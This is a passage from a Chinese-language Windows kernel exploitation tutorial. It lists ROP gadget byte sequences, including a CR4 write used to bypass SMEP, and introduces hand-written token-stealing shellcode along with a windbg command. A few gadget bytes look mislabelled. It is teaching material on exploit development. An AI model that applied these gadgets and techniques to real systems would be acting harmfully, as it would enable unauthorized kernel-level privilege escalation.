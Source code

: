 一些常见的 gadget 字节序列

```plain
{ "RET" , { 0xC3 }},
    { "POP_RAX", { 0x58, 0xC3 }},
    { "POP_RCX", { 0x59, 0xc3 }},
    { "MOV_CR4_RCX", { 0x0f, 0x22, 0xe1, 0xc3 }},

    { "NOP", { 0x4d, 0xc3 }},
    { "POP_RAX_POP_RCX", { 0x58, 0x59, 0xc3 }},
    { "MOV_RCX_PTRRAX", { 0x48, 0x89, 0x08, 0xc3 }},
    { "MOV_RAX_PTRRCX", { 0x89, 0x01, 0xc3 }},
    { "XOR_RAX_RAX", { 0x48, 0x33, 0xc0, 0xc3 }},
    { "XOR_ESI_ESI", { 0x31, 0xf6, 0xc3 }},
```

如果想直接从二进制读取（这样更快）可以使用：[https://github.com/xct/windows-kernel-exploits](https://github.com/xct/windows-kernel-exploits) 提供的思路去找

## shellcode 编写

### A. 手动进行 Token 提权

第二章中使用的是他人提供的 shellcode，这里尝试自己写汇编

注意，这里我们已经进入内核了，所以做的事情和 user 级别不一样

同`KRPOCESS`不同的是`EPROCESS`描述了程序运行的相关环境，例如：对应的`KPROCESS`指针、程序的权限等

在 windbg 中使用，可以列举所有的进程的相关信息

```plain
!process 0 0 <process_name>
```

[![](assets/1706090578-c9255ae2d2b1e48d862346894e98428c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122132236-40d9a178-b8e6-1.png)
